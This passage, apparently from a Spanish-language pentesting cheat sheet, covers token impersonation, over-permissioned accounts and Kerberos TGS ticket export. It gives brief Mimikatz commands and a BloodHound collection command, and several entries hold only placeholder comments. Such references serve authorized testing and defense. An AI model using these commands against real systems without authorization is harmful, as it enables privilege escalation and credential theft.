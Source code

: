 ### Token Impersonation
- **Descripción**: Suplantación de tokens de seguridad para ejecutar comandos con permisos elevados.
- **Método**: Uso de tokens de otros procesos.
- **Herramienta**: `Incognito`, `Mimikatz`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # token::elevate
    ```
  - **Kali Linux**:
    ```bash
    # Realizar suplantación de tokens en una máquina Windows utilizando Mimikatz.
    ```

### Over-Permissioned Accounts
- **Descripción**: Uso de cuentas con permisos excesivos.
- **Método**: Abuso de privilegios innecesarios.
- **Herramienta**: `BloodHound`.
- **Comandos**:
  - **Windows**:
    ```bash
    # Usar BloodHound en un entorno Windows o Linux.
    ```
  - **Kali Linux**:
    ```bash
    bloodhound-python -c All -u <username> -p <password> -d example.com -ns <domain controller>
    ```

### Ticket Granting Service (TGS) Ticket Manipulation
- **Descripción**: Manipulación de tickets TGS para obtener acceso.
- **Método**: Explotación de tickets TGS.
- **Herramienta**: `Mimikatz`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # kerberos::list /export
    ```
  - **Kali Linux**:
    ```bash
    # Exportar tickets TGS en una máquina Windows utilizando Mimikatz.
    ```
